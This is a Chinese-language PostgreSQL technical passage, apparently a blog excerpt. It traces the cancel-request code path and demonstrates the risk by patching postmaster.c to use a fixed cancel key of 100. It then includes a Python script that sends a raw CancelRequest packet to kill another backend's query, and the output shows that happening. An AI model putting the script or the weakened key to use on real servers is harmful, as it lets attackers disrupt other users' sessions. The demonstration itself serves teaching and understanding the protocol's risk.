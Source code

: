 ```
```
  
流程  
  
```
PostmasterMain
ServerLoop
BackendStartup
fork_process
BackendInitialize
ProcessStartupPacket
processCancelRequest
```
  
## 风险演示   
  
```
vi src/backend/postmaster/postmaster.c

static int
BackendStartup(Port *port)
{
        // MyCancelKey = PostmasterRandom();  // 注释掉随机码，
        MyCancelKey = (long) 100;  // 使用一个固定值，方便演示
        bn->cancel_key = MyCancelKey;
......


make && make install
pg_ctl restart -m fast


[root@digoal ~]# vi cancel.py 
#!/usr/bin/python
import struct
import socket
import sys

def pg_cancel_query(pid, cancel_key):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("127.0.0.1",1921))
    buffer = struct.pack('IIII', socket.htonl(16), socket.htonl((1234<<16)|(5678)),\
            socket.htonl(int(pid)), socket.htonl(int(cancel_key)))
    s.send(buffer)
    # log.info("cancel query %s: return %s" % (query, s.recv(1024)))
    s.close() 

pg_cancel_query(int(sys.argv[1]),100)
```
  
现在你可以随意的cancel了。  
  
```
postgres=# select pg_backend_pid();
 pg_backend_pid 
----------------
          63988
(1 row)

postgres=# select pg_sleep(10000);

[root@digoal ~]# ./cancel.py 63988

ERROR:  canceling statement due to user request
```
  